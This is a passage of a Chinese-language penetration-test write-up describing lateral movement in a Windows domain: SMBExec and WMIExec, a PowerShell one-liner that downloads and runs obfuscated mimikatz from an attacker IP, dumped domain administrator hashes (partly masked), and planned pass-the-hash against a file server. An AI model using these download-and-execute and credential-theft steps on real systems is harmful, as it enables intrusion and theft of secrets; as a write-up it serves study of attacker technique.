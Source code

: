 最终还是拿到了一个连接更稳定的shell，拜拜啦Android~

但现在我们的任务也与以前不同了，我们至今也没能找到窃取机密数据的方法。

我们同样注意到了，即使以本地管理员身份启动了smb.ps1，SMBExec也会以SYSTEM权限产生进程(记得之前的whoami结果吗)。或许使用[wmiexec.ps1](https://github.com/Kevin-Robertson/Invoke-TheHash/blob/master/Invoke-WMIExec.ps1)——一款强大的windows WMI接口的Powershell封装工具——会更适合下面的任务，因为它会使用传递的凭据运行远程进程。

我们再次运行mimikatz，依旧没有什么问题（我们是SYSTEM权限），这次SRVWSUS直接传递给我们了反向shell，而无需再上传文件。记住，"mymy"是我们对mimikatz混淆后的名字。



```
PS C:Windowssystem32&gt;iex (New-Object Net.WebClient).DownloadString(‘http://&lt;OUR_PUBLIC_IP&gt;/m.ps1’); Invoke-mymy
mimikatz(powershell) # sekurlsa::logonpasswords
Authentication Id : 0 ; 749566 (00000000:000b6ffe)
Session : Interactive from 2
User Name : administrator
Domain : SUPERCOMPANY
Logon Server : SRVDC1
Logon Time : 2/17/2017 4:23:28 PM
SID : S-1-5-21-3534665177-2148510708-2241433719-500
msv :
[00000003] Primary
* Username : Administrator
* Domain : SUPERCOMPANY
* NTLM : 446687c38d831f4XXXXXXXXXXXXXXXXX
    * SHA1 : 5cd9d993a606586XXXXXXXXXXXXXXXXXXXXXXXXX
[00010000] CredentialKeys
* NTLM : 446687c38d831f4XXXXXXXXXXXXXXXXX
    * SHA1 : 5cd9d993a606586XXXXXXXXXXXXXXXXXXXXXXXXX
tspkg :
wdigest :
* Username : Administrator
* Domain : SUPERCOMPANY
* Password : (null)
kerberos :
* Username : administrator
* Domain : SUPERCOMPANY.LOCAL
* Password : (null)
ssp :    KO
credman :
```

Wow！域管理员在服务器登录过，我们拿到了域管理员的哈希，收获不小。

游戏结束了吗？并没有！客户是叫我们去窃取机密信息，可我们还没拿到任何机密文件。可是我们现在知道应该在哪搜索了，文件服务器SRVFILE1

<br>

**定位文件服务器(SRVFILE1)**

还有什么比文件服务器更适合搜索文件的地方吗？有了域管理员的密码哈希，我们已经成功了一半了。有了之前的一体化SMBExec，我们只需要把本地管理员哈希替换为域管理员哈希。

从SRVWSUS的反向shell开始，我们试着用之前相同的步骤攻击服务器，但这次失败了。经过若干次尝试之后，我们得出结论，那台服务器被配置为禁止访问互联网。
